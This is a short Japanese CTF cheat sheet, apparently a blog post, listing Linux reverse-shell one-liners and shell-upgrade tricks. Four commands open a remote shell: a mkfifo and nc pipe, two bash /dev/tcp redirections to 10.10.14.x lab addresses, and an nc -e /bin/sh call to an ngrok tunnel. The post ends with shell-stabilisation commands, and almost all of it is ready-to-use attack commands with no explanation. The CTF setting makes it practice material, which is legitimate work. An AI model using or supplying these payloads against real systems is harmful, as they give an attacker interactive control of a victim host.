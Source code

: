 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
permalink: /ctf/cheatsheets/common/linux_reverse_shell
tags: [CTF, Common, cheatsheet, linux, reverse shell]
---
```

## リバースシェル
- コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
```
- コマンド2
```sh
bash -i >& /dev/tcp/10.10.14.14/7777 0>&1
```
- コマンド3
```sh
'bash -c "bash -i >& /dev/tcp/10.10.14.4/443 0>&1"'
```
- コマンド4
```sh
nc 0.tcp.jp.ngrok.io:14497 -e /bin/sh
```

## シェルのアップグレード
```
script /dev/null -c bash
```

## シェルをさらにアップグレード
```
(Ctrl + z)
stty raw -echo ; fg
```
